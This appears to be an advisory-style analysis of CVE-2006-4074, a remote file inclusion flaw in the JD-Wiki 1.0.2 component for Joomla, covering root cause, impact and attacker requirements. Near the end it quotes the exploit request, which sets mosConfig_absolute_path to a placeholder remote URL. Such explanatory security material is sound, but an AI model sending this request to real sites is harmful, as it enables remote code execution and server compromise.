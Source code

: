 Based on the provided content, here's an analysis of CVE-2006-4074:

**Root Cause of Vulnerability:**
- The vulnerability is a Remote File Inclusion (RFI) in the JD-Wiki component for Joomla.
- The `mosConfig_absolute_path` parameter in the `main.php` file within the component's template directory is vulnerable.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The application includes a file from an arbitrary remote location, specified by the attacker through the vulnerable parameter.
- **Lack of Input Validation:** The application fails to properly sanitize the `mosConfig_absolute_path` parameter, allowing the attacker to inject a malicious URL.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** An attacker can execute arbitrary code on the server by including a malicious file from a remote server under their control. This can lead to a full compromise of the server.

**Attack Vectors:**
- **HTTP Request:** The attacker sends a specially crafted HTTP request to the vulnerable component with the `mosConfig_absolute_path` parameter set to a malicious URL.
- **Targeted Parameter:** The attacker targets the  `mosConfig_absolute_path` parameter.
- **Vulnerable File:** The vulnerable file is `/components/com_jd-wiki/lib/tpl/default/main.php`.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker must be able to send HTTP requests to the target web server.
- **Knowledge of Vulnerable Parameter:** The attacker must know the vulnerable parameter (`mosConfig_absolute_path`) and the path to the vulnerable file.
- **Malicious File Hosting:** The attacker needs a server to host the malicious file.

**Additional Details:**
- The exploit-db content provides a specific example of how the attack is performed: `/components/com_jd-wiki/lib/tpl/default/main.php?mosConfig_absolute_path=http://shell` where `http://shell` would be replaced with the URL to attacker's malicious file.
- The vulnerability affects JD-Wiki version 1.0.2.